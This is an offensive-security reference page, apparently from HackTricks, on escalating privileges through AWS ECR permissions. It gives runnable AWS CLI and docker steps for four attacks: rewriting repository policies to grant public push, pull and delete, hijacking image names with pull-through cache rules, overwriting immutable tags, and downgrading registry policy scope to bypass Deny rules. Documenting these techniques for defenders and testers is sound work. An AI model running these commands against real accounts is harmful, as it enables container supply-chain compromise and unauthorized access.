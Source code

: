 # AWS - ECR Privesc

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

An attacker with the **`ecr:GetAuthorizationToken`** and **`ecr:BatchGetImage`** can login to ECR and download images.

For more info on how to download images:

[[../../aws-post-exploitation/aws-ecr-post-exploitation/README.md]]

**Potential Impact:** Indirect privesc by intercepting sensitive information in the traffic.

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

An attacker with the all those permissions **can login to ECR and upload images**. This can be useful to escalate privileges to other environments where those images are being used.

To learn how to upload a new image/update one, check:

[[../../aws-services/aws-eks-enum.md]]

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

Like the previous section, but for public repositories.

### `ecr:SetRepositoryPolicy`

An attacker with this permission could **change** the **repository** **policy** to grant himself (or even everyone) **read/write access**.\
For example, in this example read access is given to everyone.

```bash
aws ecr set-repository-policy \
    --repository-name <repo_name> \
    --policy-text file://my-policy.json
```

Contents of `my-policy.json`:

```json
{
  "Version": "2008-10-17",
  "Statement": [
    {
      "Sid": "allow public pull",
      "Effect": "Allow",
      "Principal": "*",
      "Action": [
        "ecr:BatchCheckLayerAvailability",
        "ecr:BatchGetImage",
        "ecr:GetDownloadUrlForLayer"
      ]
    }
  ]
}
```

### `ecr-public:SetRepositoryPolicy`

Like the previoous section, but for public repositories.\
An attacker can **modify the repository policy** of an ECR Public repository to grant unauthorized public access or to escalate their privileges.

```bash
# Create a JSON file with the malicious public repository policy
echo '{
  "Version": "2008-10-17",
  "Statement": [
    {
      "Sid": "MaliciousPublicRepoPolicy",
      "Effect": "Allow",
      "Principal": "*",
      "Action": [
        "ecr-public:GetDownloadUrlForLayer",
        "ecr-public:BatchGetImage",
        "ecr-public:BatchCheckLayerAvailability",
        "ecr-public:PutImage",
        "ecr-public:InitiateLayerUpload",
        "ecr-public:UploadLayerPart",
        "ecr-public:CompleteLayerUpload",
        "ecr-public:DeleteRepositoryPolicy"
      ]
    }
  ]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```

**Potential Impact**: Unauthorized public access to the ECR Public repository, allowing any user to push, pull, or delete images.

### `ecr:PutRegistryPolicy`

An attacker with this permission could **change** the **registry policy** to grant himself, his account (or even everyone) **read/write access**.

```bash
aws ecr set-repository-policy \
    --repository-name <repo_name> \
    --policy-text file://my-policy.json
```

### ecr:CreatePullThroughCacheRule

Abuse ECR Pull Through Cache (PTC) rules to map an attacker-controlled upstream namespace to a trusted private ECR prefix. This makes workloads pulling from the private ECR transparently receive attacker images without any push to private ECR.

- Required perms: ecr:CreatePullThroughCacheRule, ecr:DescribePullThroughCacheRules, ecr:DeletePullThroughCacheRule. If using ECR Public upstream: ecr-public:* to create/push to the public repo.
- Tested upstream: public.ecr.aws

Steps (example):

1. Prepare attacker image in ECR Public
    # Get your ECR Public alias with: aws ecr-public describe-registries --region us-east-1
    docker login public.ecr.aws/<public_alias>
    docker build -t public.ecr.aws/<public_alias>/hacktricks-ptc-demo:ptc-test .
    docker push public.ecr.aws/<public_alias>/hacktricks-ptc-demo:ptc-test

2. Create the PTC rule in private ECR to map a trusted prefix to the public registry
    aws ecr create-pull-through-cache-rule --region us-east-2 --ecr-repository-prefix ptc --upstream-registry-url public.ecr.aws

3. Pull the attacker image via the private ECR path (no push to private ECR was done)
    docker login <account_id>.dkr.ecr.us-east-2.amazonaws.com
    docker pull <account_id>.dkr.ecr.us-east-2.amazonaws.com/ptc/<public_alias>/hacktricks-ptc-demo:ptc-test
    docker run --rm <account_id>.dkr.ecr.us-east-2.amazonaws.com/ptc/<public_alias>/hacktricks-ptc-demo:ptc-test

Potential Impact: Supply-chain compromise by hijacking internal image names under the chosen prefix. Any workload pulling images from the private ECR using that prefix will receive attacker-controlled content.

### `ecr:PutImageTagMutability`

Abuse this permission to flip a repository with tag immutability to mutable and overwrite trusted tags (e.g., latest, stable, prod) with attacker-controlled content.

- Required perms: `ecr:PutImageTagMutability` plus push capabilities (`ecr:GetAuthorizationToken`, `ecr:InitiateLayerUpload`, `ecr:UploadLayerPart`, `ecr:CompleteLayerUpload`, `ecr:PutImage`).
- Impact: Supply-chain compromise by silently replacing immutable tags without changing tag names.

Steps (example):

<details>
**Poison an immutable tag by toggling mutability**

```bash
REGION=us-east-1
REPO=ht-immutable-demo-$RANDOM
aws ecr create-repository --region $REGION --repository-name $REPO --image-tag-mutability IMMUTABLE
acct=$(aws sts get-caller-identity --query Account --output text)
aws ecr get-login-password --region $REGION | docker login --username AWS --password-stdin ${acct}.dkr.ecr.${REGION}.amazonaws.com
# Build and push initial trusted tag
printf 'FROM alpine:3.19\nCMD echo V1\n' > Dockerfile && docker build -t ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod . && docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
# Attempt overwrite while IMMUTABLE (should fail)
printf 'FROM alpine:3.19\nCMD echo V2\n' > Dockerfile && docker build -t ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod . && docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
# Flip to MUTABLE and overwrite
aws ecr put-image-tag-mutability --region $REGION --repository-name $REPO --image-tag-mutability MUTABLE
docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
# Validate consumers pulling by tag now get the poisoned image (prints V2)
docker run --rm ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
```

</details>

#### Global registry hijack via ROOT Pull-Through Cache rule

Create a Pull-Through Cache (PTC) rule using the special `ecrRepositoryPrefix=ROOT` to map the root of the private ECR registry to an upstream public registry (e.g., ECR Public). Any pull to a non-existent repository in the private registry will be transparently served from upstream, enabling supply-chain hijacking without pushing to private ECR.

- Required perms: `ecr:CreatePullThroughCacheRule`, `ecr:DescribePullThroughCacheRules`, `ecr:DeletePullThroughCacheRule`, `ecr:GetAuthorizationToken`.
- Impact: Pulls to `<account>.dkr.ecr.<region>.amazonaws.com/<any-existing-upstream-path>:<tag>` succeed and auto-create private repos sourced from upstream.

> Note: For `ROOT` rules, omit `--upstream-repository-prefix`. Supplying it will cause a validation error.

<details>
**Demo (us\-east\-1, upstream public.ecr.aws)**

```bash
REGION=us-east-1
ACCT=$(aws sts get-caller-identity --query Account --output text)

# 1) Create ROOT PTC rule mapping to ECR Public (no upstream prefix)
aws ecr create-pull-through-cache-rule \
  --region "$REGION" \
  --ecr-repository-prefix ROOT \
  --upstream-registry-url public.ecr.aws

# 2) Authenticate to private ECR and pull via root path (triggers caching & auto repo creation)
aws ecr get-login-password --region "$REGION" | docker login --username AWS --password-stdin ${ACCT}.dkr.ecr.${REGION}.amazonaws.com

# Example using an official mirror path hosted in ECR Public
# (public.ecr.aws/docker/library/alpine:latest)
docker pull ${ACCT}.dkr.ecr.${REGION}.amazonaws.com/docker/library/alpine:latest

# 3) Verify repo and image now exist without any push
aws ecr describe-repositories --region "$REGION" \
  --query "repositories[?repositoryName==docker/library/alpine]"
aws ecr list-images --region "$REGION" --repository-name docker/library/alpine --filter tagStatus=TAGGED

# 4) Cleanup
aws ecr delete-pull-through-cache-rule --region "$REGION" --ecr-repository-prefix ROOT
aws ecr delete-repository --region "$REGION" --repository-name docker/library/alpine --force || true
```

</details>

### `ecr:PutAccountSetting` (Downgrade `REGISTRY_POLICY_SCOPE` to bypass registry policy denies)

Abuse `ecr:PutAccountSetting` to switch the registry policy scope from `V2` (policy applied to all ECR actions) to `V1` (policy applied only to `CreateRepository`, `ReplicateImage`, `BatchImportUpstreamImage`). If a restrictive registry policy Deny blocks actions like `CreatePullThroughCacheRule`, downgrading to `V1` removes that enforcement so identity‑policy Allows take effect.

- Required perms: `ecr:PutAccountSetting`, `ecr:PutRegistryPolicy`, `ecr:GetRegistryPolicy`, `ecr:CreatePullThroughCacheRule`, `ecr:DescribePullThroughCacheRules`, `ecr:DeletePullThroughCacheRule`.
- Impact: Ability to perform ECR actions previously blocked by a registry policy Deny (e.g., create PTC rules) by temporarily setting scope to `V1`.

Steps (example):

<details>
**Bypass registry policy Deny on CreatePullThroughCacheRule by switching to V1**

```bash
REGION=us-east-1
ACCT=$(aws sts get-caller-identity --query Account --output text)

# 0) Snapshot current scope/policy (for restore)
aws ecr get-account-setting --name REGISTRY_POLICY_SCOPE --region $REGION || true
aws ecr get-registry-policy --region $REGION > /tmp/orig-registry-policy.json 2>/dev/null || echo '{}' > /tmp/orig-registry-policy.json

# 1) Ensure V2 and set a registry policy Deny for CreatePullThroughCacheRule
aws ecr put-account-setting --name REGISTRY_POLICY_SCOPE --value V2 --region $REGION
cat > /tmp/deny-ptc.json <<'JSON'
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "DenyPTCAll",
      "Effect": "Deny",
      "Principal": "*",
      "Action": ["ecr:CreatePullThroughCacheRule"],
      "Resource": "*"
    }
  ]
}
JSON
aws ecr put-registry-policy --policy-text file:///tmp/deny-ptc.json --region $REGION

# 2) Attempt to create a PTC rule (should FAIL under V2 due to Deny)
set +e
aws ecr create-pull-through-cache-rule \
  --region $REGION \
  --ecr-repository-prefix ptc-deny-test \
  --upstream-registry-url public.ecr.aws
RC=$?
set -e
if [ "$RC" -eq 0 ]; then echo "UNEXPECTED: rule creation succeeded under V2 deny"; fi

# 3) Downgrade scope to V1 and retry (should SUCCEED now)
aws ecr put-account-setting --name REGISTRY_POLICY_SCOPE --value V1 --region $REGION
aws ecr create-pull-through-cache-rule \
  --region $REGION \
  --ecr-repository-prefix ptc-deny-test \
  --upstream-registry-url public.ecr.aws

# 4) Verify rule exists
aws ecr describe-pull-through-cache-rules --region $REGION \
  --query "pullThroughCacheRules[?ecrRepositoryPrefix=='ptc-deny-test']"

# 5) Cleanup and restore
aws ecr delete-pull-through-cache-rule --region $REGION --ecr-repository-prefix ptc-deny-test || true
if jq -e '.registryPolicyText' /tmp/orig-registry-policy.json >/dev/null 2>&1; then
  jq -r '.registryPolicyText' /tmp/orig-registry-policy.json > /tmp/_orig.txt
  aws ecr put-registry-policy --region $REGION --policy-text file:///tmp/_orig.txt
else
  aws ecr delete-registry-policy --region $REGION || true
fi
aws ecr put-account-setting --name REGISTRY_POLICY_SCOPE --value V2 --region $REGION
```

</details>

